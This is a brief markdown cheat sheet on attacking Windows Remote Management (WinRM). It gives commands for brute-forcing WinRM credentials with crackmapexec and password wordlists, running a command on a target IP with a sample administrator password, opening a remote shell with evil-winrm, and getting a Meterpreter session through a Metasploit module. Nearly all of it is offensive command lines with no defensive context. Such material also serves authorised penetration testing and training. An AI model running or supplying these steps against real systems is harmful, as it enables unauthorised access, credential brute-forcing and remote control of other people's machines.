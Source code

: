 # Exploiting Windows Remote Management

WinRM is not enabled by default  
This protocol could manage systems over http or https  
WinRM Ports: 5985 and 5986  

Tools:  
**Crackmapexec** - This will perform a brute-force on winRM to identify users and passwords

**evil-winrm** -- this can obtain a shell session

## Performing Brute force attack with Crackmapexec  
```crackmapexec (protocol) (Target IP) -u (Username / word list) -p (password wordlist)```

## Executing a command with crackmapexec  
```crackmapexec winrm 10.4.21.151 -u administrator -p tinkerbell -x "whoami" ```

## Evil-winrm to get command shell session  
```evil-winrm.rb -u administrator -p 'password' -i (IP address)```

## Meterpreter session
```service postgresql start && msfconsole```  
**Module**: winrm_script_exec  
Set FORCE_VBS to true
